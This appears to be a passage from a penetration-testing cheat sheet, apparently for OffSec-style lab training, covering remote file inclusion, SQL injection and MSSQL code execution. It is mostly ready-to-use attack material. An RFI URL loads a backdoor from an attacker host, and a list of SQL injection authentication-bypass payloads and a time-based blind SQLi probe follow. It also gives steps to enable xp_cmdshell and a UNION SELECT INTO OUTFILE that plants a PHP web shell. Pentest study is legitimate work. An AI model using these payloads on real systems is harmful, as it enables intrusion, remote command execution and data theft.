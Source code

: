 - Remote file inclusion

```powershell
1. Obtain a php shell
2. host a file server 
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

## SQL Injection

```powershell
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

- Blind SQL Injection - This can be identified by Time-based SQLI

```powershell
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

```powershell
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from the web, then follow the below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```
